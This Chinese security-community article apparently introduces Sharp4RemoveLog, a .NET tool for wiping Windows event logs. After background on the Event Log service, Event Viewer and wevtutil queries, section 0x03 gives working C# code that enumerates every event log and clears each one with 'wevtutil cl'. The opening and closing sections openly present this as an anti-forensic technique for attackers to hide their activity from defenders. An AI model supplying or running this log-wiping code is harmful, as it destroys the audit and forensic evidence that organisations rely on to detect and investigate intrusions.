# Sharp4RemoveLog：一款通过调用wevtutil进程实现痕迹清理的工具-先知社区

> **来源**: https://xz.aliyun.com/news/16246  
> **文章ID**: 16246

---

在渗透测试或攻击活动中，清理日志是一项关键的操作，用于掩盖攻击者的行为，避免被防御者发现和追踪。Windows 系统的事件日志是安全分析和取证的重要依据，而通过 Sharp4RemoveLog.exe 这款工具可以高效地清空所有的系统日志，这种方法具有较强的隐蔽性，能够绕过大部分传统的日志分析工具，为攻击者提供了一种强有力的反取证手段。

### 0x01 Windows 事件日志

Windows 事件日志是操作系统内置的日志记录系统，用于跟踪和记录系统、应用程序、用户活动、服务运行状态等各类事件。  
事件日志系统主要由Windows事件日志服务、日志文件、事件查看器三个部分组成，这些功能可以帮助管理员监控系统运行状态、排查问题以及进行安全审计。

#### 1.1 事件日志服务

Windows 事件日志服务，英文名为：Windows Event Log，对应的进程是 svchost.exe，该进程不仅包含了事件日志服务，还包含其他的系统服务，本质上是一个托管服务的通用进程，多个系统服务可以共享一个或多个 svchost.exe 进程。事件日志服务可以通过任务管理器进行查看，具体操作步骤如下：

1. 打开任务管理器，右键点击 svchost.exe，选择 “转到服务”，如下图所示。



在服务中查找 EventLog服务名或者在描述中寻找 Windows Event Log，如下图所示



除此之外，还可以通过 PowerShell 获取 eventlog 服务的进程 ID，比如执行如下命令。

```
Get-WmiObject Win32_Service | Where-Object { $_.Name -eq "eventlog" } | Select-Object Name, ProcessId

```



由于，eventlog 服务是 Windows 系统的核心服务，建议始终保持启用状态，但在执行日志审计、故障排查或监控任务时往往需要暂停或者重启该服务，可以通过以下命令实现。

```
net start eventlog
net stop eventlog

```

注意：命令运行需要以管理员身份才能操作成功。

#### 1.2 日志文件

Windows 10之后的版本中，事件日志文件默认存储在以下目录中：

```
C:\Windows\System32\winevt\Logs

```



这些文件的扩展名是 .evtx，常见的日志文件有：Application.evtx、Security.evtx、System.evtx，关于这三类事件的说明如下所示。

```
1. System.evtx，记录操作系统组件的事件，例如驱动加载、服务启动/停止、硬件故障等
2. Application.evtx，记录由用户应用程序或服务生成的事件
3. Security.evtx，记录与系统安全相关的事件，包括登录、权限使用、审计日志等

```

#### 1.3 事件查看器

事件查看器是 Windows 操作系统内置的一个强大图形化工具，用于查看、筛选、分析和管理事件日志。按 Win + R 键，输入 eventvwr，即可打开工具界面，如下图所示。


单击左侧某个日志类别（如 安全），中间窗格将显示该类别的所有事件，双击某条事件记录，可打开详细信息窗口，查看事件的具体内容，如下图所示。



还可以将事件日志导出到文件中，在某个日志上右键 → 保存选择的事件。支持的导出格式除了.evtx之外，还有 .xml、.csv 或 .txt等扩展名，如下图所示。



通过事件筛选功能，右键某个日志 → 筛选当前日志，在弹出的窗口中设置筛选条件，如下图所示。



筛选的条件有时间范围、事件等级、事件 ID，如下图所示。



通过结合 日志服务、日志存储的文件、事件查看器进行分析，可以更高效地发现和应对潜在威胁。

### 0x02 wevtutil.exe

wevtutil.exe 是 Windows 系统管理事件日志的工具，可以列出事件日志、查询事件、导出日志文件等，具体用法如下所示。

```
wevtutil el 列出系统中所有事件日志
wevtutil qe 查询特定事件日志中的事件
wevtutil cl <log>   清除指定的事件日志（如 Application）
wevtutil epl    导出事件日志到 .evtx 文件

```

#### 2.1 列出所有日志名

el 参数表示列出所有当前系统支持的事件日志，输出时每个日志名称占一行，如下图所示。



#### 2.2 查询指定日志

qe 参数表示用于查询指定事件日志中的事件记录，通过这个命令，可以基于不同条件提取事件信息，例如日志名称、事件级别、事件时间范围等。基础语法如下所示。

```
wevtutil qe <LogName> [/f:<Format>] [/q:<Query>] [/c:<Count>] [/e:<True|False>]

```

其中，LogName：表示要查询的事件日志名称。比如 Application、System 等，/f：支持text、xml格式。/q：基于 XPath 的查询条件，过滤日志。比如，查询系统日志中最近的 10 条事件，并以XML格式输出，具体命令如下所示。

```
wevtutil qe System /c:10 /e:True /f:xml

```



以管理员身份运行，再使用 XPath 查询 Security 日志中所有 EventID=4624（登录成功）的事件，具体命令如下所示

```
wevtutil qe Security /q:"*[System[EventID=4624]]" /c:5 /f:text

```



关于 XPath 查询日志，这里还想多说几点知识，在 wevtutil qe 中，/q 参数使用 XPath 表达式构建查询条件，常见的查询节点如下所示。

```
System：事件的系统属性（如 EventID、TimeCreated）。
Provider：事件来源。
EventID：事件编号，用于筛选特定类型事件。
TimeCreated：事件发生的时间。
EventData：事件的详细数据

```

比如，查询来源为 edgeupdate 的事件的语法如下所示。

```
wevtutil qe Application /q:"*[System[Provider[@Name='edgeupdate']]]" /f:text

```



### 0x03 编码实现操作痕迹自动化清理

wevtutil.exe 命令的 cl 参数用于清空指定的事件日志，比如要清空 Application 日志，可以使用以下命令：

```
wevtutil.exe cl Application

```

因此，我们可以用.NET启动 wevtutil.exe 进程，传入el 和 cl 两个参数分别读取事件名称和清理的动作，Sharp4RemoveLog.exe 实现的具体代码如下所示。

```
List<String> eventLogs = _Start_Process("wevtutil.exe", "el")
    .Split(new string[] { "\r\n" }, StringSplitOptions.RemoveEmptyEntries)
    .ToList();

```

代码中通过调用系统工具 wevtutil.exe 获取当前系统中的所有事件日志的列表，然后将结果按行分割，过滤掉空行，最终转为一个 List 类型的集合。

自定义的 \_Start\_Process 方法就是常规调用Process.Start方法启动Windows进程，代码如下所示。

```
public String _Start_Process(String executable, String args)
{
    try
    {
        Process p = new Process();
        ProcessStartInfo psi = new ProcessStartInfo(executable);
        psi.Arguments = args;
        psi.CreateNoWindow = true;
        psi.RedirectStandardOutput = true;
        psi.UseShellExecute = false;
        p.StartInfo = psi;
        p.Start();
        StreamReader processOutput = p.StandardOutput;
        String output = processOutput.ReadToEnd();
        p.WaitForExit();
        return output;
    }
    catch (Exception ex)
    {
        //MessageBox.Show(this, ex.Message, "Error", MessageBoxButtons.OK, MessageBoxIcon.Error);
        return null;
    }
}

```

随后，遍历 eventLogs 集合，该集合包含系统中的所有事件日志名称 如 "Application", "Security", "System" 等，具体代码如下所示。

```
foreach (String item in eventLogs)
{

    Console.WriteLine("Cleaning Log " + item + "\r\n");
    Console.WriteLine(_Start_Process("wevtutil.exe", "cl " + item) + "..\r\n");
    System.Threading.Thread.Sleep(50);
}

```

每清理一个日志后，暂停执行 50 毫秒，以避免对系统资源造成过大的负载，注意：清空事件日志需要管理员权限。确保运行程序的用户具有相应权限，否则命令会失败。

### 0x04 小结

综上，通过使用 .NET 程序结合 wevtutil 工具清空 Windows 日志，攻击者可以有效掩盖操作痕迹，从而大幅降低攻击活动被发现的概率。
